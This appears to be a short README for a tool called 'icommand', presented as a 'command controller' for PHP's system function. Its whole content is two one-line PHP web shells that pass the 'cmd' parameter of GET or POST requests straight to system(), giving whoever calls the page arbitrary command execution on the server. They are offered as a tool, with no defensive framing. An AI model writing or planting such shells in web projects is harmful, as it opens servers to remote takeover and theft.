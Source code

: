 ### icommand - command controller for PHP system function
- - -
icommand works for **POST** and **GET** requests
        <?php system($_GET['cmd']); ?>
        <?php system($_POST['cmd']); ?>
